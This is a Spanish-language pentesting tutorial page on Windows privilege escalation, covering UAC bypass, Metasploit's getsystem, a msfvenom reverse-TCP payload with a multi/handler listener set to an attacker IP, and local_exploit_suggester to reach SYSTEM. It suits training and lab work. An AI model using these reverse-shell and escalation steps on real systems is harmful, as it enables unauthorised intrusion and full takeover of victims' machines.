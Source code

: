 # 🪟 Windows

## Bypassing UAC con UACMe

{% hint style="info" %}
El Control de Cuentas de Usuario (UAC) en Windows es una característica de seguridad que previene cambios no autorizados en el sistema. Cuando una acción requiere permisos administrativos, UAC solicita la confirmación del usuario mediante una ventana emergente. Esto ayuda a proteger contra malware y modificaciones no deseadas, asegurando que solo usuarios autorizados puedan realizar cambios críticos en el sistema.

![](<../.gitbook/assets/image (1) (1) (1).png>)
{% endhint %}

{% hint style="warning" %}
Para poder usar este método, necesitamos tener acceso a una cuenta que pertenezca al grupo de administradores locales de windows.

Para comprobarlo, podemos ejecutar los siguientes comandos:

```powershell
net users

net localgroup administrators
```

Ejemplo de un caso, en el que es viable este método:

![](<../.gitbook/assets/image (2) (1) (1).png>)
{% endhint %}

## Elevación automática con Metasploit

Cuando tenemos una consola meterpreter, podemos usar el comando "`getsystem`" para realizar una sencilla elevación de privilegios de manera automática:

<figure><img src="../.gitbook/assets/image (107).png" alt=""><figcaption></figcaption></figure>

## Metasploit + Msfvenom&#x20;

Podemos escalar privilegios con metasploit en windows. En primer lugar deberemos de generar un payload con msfvenom ( [#reverse-shell-tcp-con-exe](../explotacion/msfvenom.md#reverse-shell-tcp-con-exe "mention")) y pasarlo a nuestra maquina victima.

Después desde la maquina atacante, nos ponemos a la escucha con metasploit a través de multi/handler. Deberemos de ejecutar los siguientes comandos:

{% hint style="warning" %}
Los valores de los comandos de Metasploit deben ser lo mismos con los que se ha generado el payload en msfvenom (.exe) que está en la maquina victima
{% endhint %}

```bash
msfconsole

use /multi/handler

set LHOST 192.168.1.12    # IP Maquina atacante

set LPORT 4444 # Debe ser el mismo puerto que el que hemos puesto en el payload de msfvenom

set PAYLOAD windows/meterpreter/reverse_tcp # Debe ser el mismo que el que hemos puesto en el payload de msfvenom

run
```

Ahora ejecutamos el payload en la maquina victima y obtenemos una sesión de meterpreter:

<figure><img src="../.gitbook/assets/image (2) (1) (1) (1) (1) (1) (1) (1) (1).png" alt=""><figcaption></figcaption></figure>

{% hint style="success" %}
En muchos casos en los que nos encontramos con que tenemos una meterpreter ya en el sistema, podemos ejecutar el comando "`run post/multi/recon/local_exploit_suggester`" para poder enumerar potenciales exploits para la escalada.
{% endhint %}

Una vez en la sesión de meterpreter (NO EN LA CMD DE WINDOWS), ponemos "`background`" y "`search local_exploit_suggester`":

<figure><img src="../.gitbook/assets/image (3) (1) (1) (1) (1) (1) (1).png" alt=""><figcaption></figcaption></figure>

Esta opción nos dará el exploit más adecuado para la escalada, lo seleccionamos "`use 0`" y miramos las opciones que tiene. En este caso, nos pide el ID de la sesión de meterpreter:

<figure><img src="../.gitbook/assets/image (4) (1) (1) (1) (1).png" alt=""><figcaption></figcaption></figure>

Ponemos el ID de la sesión (lo puedes averiguar con el comando "`sessions -l`"). Ejecutamos:

<figure><img src="../.gitbook/assets/image (6) (1) (1).png" alt=""><figcaption></figcaption></figure>

Ahora, nos aparecerá una lista en colores verde y rojo. Los payloads de color rojo deberemos de omitirlos y centrarnos en los de verde.

<figure><img src="../.gitbook/assets/image (7) (1) (1).png" alt=""><figcaption></figcaption></figure>

Cualquiera de estos podría funcionar (no está asegurado), usamos uno de ellos seleccionándolo:

<figure><img src="../.gitbook/assets/image (8) (1).png" alt=""><figcaption></figcaption></figure>

Ahora, ajustamos los valores necesarios ("`show options`"). Si el modulo funciona obtendremos una sesión de meterpreter en la que podremos abrir una shell ("`shell`") como `nt authority\system`. En el caso de que no funcione volvemos atrás ("`back`") y probamos con otro
